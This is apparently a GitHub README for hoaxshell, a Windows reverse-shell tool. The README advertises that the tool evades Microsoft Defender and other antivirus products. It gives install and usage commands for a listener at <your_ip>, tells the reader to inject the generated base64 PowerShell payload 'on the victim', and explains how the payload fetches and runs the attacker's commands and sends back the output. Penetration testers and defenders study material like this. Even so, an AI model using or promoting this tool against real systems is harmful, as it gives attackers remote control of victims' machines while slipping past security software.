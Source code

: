 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-MIT-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and other AV solutions as it is solely based on http(s) traffic. The tool is easy to use, it produces it's own PowerShell base64 encoded or raw payload, it supports session restoration and encryption (ssl).  
  
**Disclaimer**: The project is quite fresh and has not been widely tested.  
  
### Video Presentation  
https://www.youtube.com/

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/Screenshots/hoaxshell-1.png)
  
Find more screenshots [here](Screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
#### Basic (shell session over http)
```
sudo python3 hoaxshell.py -s <your_ip>
```  
hoaxshell will generate the PowerShell payload automatically base64 encoded for you to copy and inject on the victim. If you need the payload raw, execute the "rawpayload" prompt command. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  

#### Restore session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in restore mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

## Limitations
The shell will die if you submit a command that initiates an interactive 

## How it Works
The attacker issued commands are basically hosted via http/https (python HTTPServer). The generated payload submits the victim's machine into a loop that periodically requests the commands from the attacker's malicious http(s) server, executes them and then sends the output back to the malicious server via POST requests.


